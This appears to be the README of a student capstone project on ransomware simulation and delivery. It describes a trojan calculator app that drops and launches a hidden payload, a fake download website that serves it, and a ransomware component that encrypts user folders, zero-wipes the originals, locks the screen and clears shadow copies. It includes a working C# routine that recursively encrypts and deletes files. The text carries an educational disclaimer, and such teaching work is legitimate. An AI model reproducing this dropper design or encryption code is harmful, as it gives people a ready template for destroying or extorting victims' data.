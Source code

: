 Thought for a second


````markdown
# Capstone Project: Ransomware Simulation & Delivery

**Author:** Aimery Barrault  
**Course:** CSCI 460 – Capstone  

---

## 🚀 Project Overview

This repository contains a controlled, educational ransomware simulation.  
> **Warning:** Do **not** deploy on production systems or without explicit authorization.

- **CalculatorApp.exe**  
  A benign “calculator” UI that embeds, drops, and launches the real payload.
- **capstone-site/**  
  A Next.js “fake download” website used to deliver the payload.
- **payload.txt** & **base64script.py**  
  Utilities to embed and extract the encrypted dropper.

---

## ⚙️ Fake-Download Site Setup

1. **Change into the site directory**  
   ```bash
   cd capstone-site
````

2. **Install dependencies**

   ```bash
   npm install
   # or
   yarn install
   ```

3. **Add your payload**
   Copy `CalculatorApp.exe` into:

   ```
   capstone-site/public/Downloads
   ```

4. **Run in development mode**

   ```bash
   npm run dev
   # or
   yarn dev
   ```

   Then open [http://localhost:3000](http://localhost:3000) in your browser.

---

## 🖥️ CalculatorApp (Dropper UI)

**`MainWindow_CalculatorApp.cs`** — A WPF application that:

1. Displays a standard calculator interface.
2. On trigger (e.g. Backspace), reads a Base64-encoded string.
3. Decodes and writes `CalculatorManager.exe` to `%USERPROFILE%\Documents\`.
4. Launches `CalculatorManager.exe` and exits.

---

## 🔒 Ransomware Simulator

**`MainWindow_Manager.cs`** — A WPF application that performs:

1. **File Encryption**

   * Recursively encrypts files under Desktop, Documents, Pictures, Downloads, and Public Documents.
   * Uses AES-128 CBC with a fresh IV per file, prepended to the ciphertext.
2. **Secure Deletion**

   * Overwrites each original file with zeros, then deletes it.
3. **Countdown Timer**

   * Displays a 24-hour full-screen, top-most UI lockout.
4. **Password-Protected Decryption**

   * Verifies via PBKDF2(SHA-256), allowing up to three attempts.
5. **Self-Destruct**

   * Clears shadow copies, zero-wipes key and flag files, removes the Run-key, then exits.

<details>
<summary>Encryption code excerpt</summary>

```csharp
private void SafeEncryptDirectory(string dir, byte[] aesKey, string self)
{
    string[] files;
    try { files = Directory.GetFiles(dir); }
    catch { return; } 

    foreach (var f in files)
    {
        if (f.EndsWith(".aes") || f.Equals(self)) continue;
        try
        {
            using var fin  = new FileStream(f, FileMode.Open, FileAccess.Read);
            using var fout = new FileStream(f + ".aes", FileMode.Create, FileAccess.Write);
            using var aes  = Aes.Create();
            aes.Key     = aesKey;
            aes.GenerateIV();
            aes.Mode    = CipherMode.CBC;
            aes.Padding = PaddingMode.PKCS7;

            // write IV prefix
            fout.Write(aes.IV, 0, aes.IV.Length);
            using var cs = new CryptoStream(fout, aes.CreateEncryptor(), CryptoStreamMode.Write);
            fin.CopyTo(cs);
        }
        catch (Exception ex)
        {
            File.AppendAllText("error.log", $"ENCRYPT {f} → {ex.Message}\n");
        }
        SecureDelete(f);
    }

    // recurse into subdirectories
    string[] subs;
    try { subs = Directory.GetDirectories(dir); }
    catch { return; }
    foreach (var sub in subs)
        SafeEncryptDirectory(sub, aesKey, self);
}
```

</details>

---

## ✅ Windows VM Execution

1. Copy `CalculatorApp.exe`, `CalculatorManager.exe`, and supporting scripts to a Windows 10 VM.
2. Run:

   ```powershell
   .\CalculatorApp.exe
   ```
3. Observe `.aes` files appearing in Desktop, Documents, etc.
4. Enter the correct password to decrypt and restore files.

---

## ⚖️ Legal Disclaimer

This software is provided **as-is** for **educational purposes only**. Misuse without explicit authorization is prohibited. By using this software, you agree that:

1. You are solely responsible for any damage.
2. The author and institution assume no liability.
3. Run only in isolated, authorized test environments.

---

## 📜 License

This project is released under the MIT License. See [LICENSE.md](LICENSE.md) for full terms.

```
```
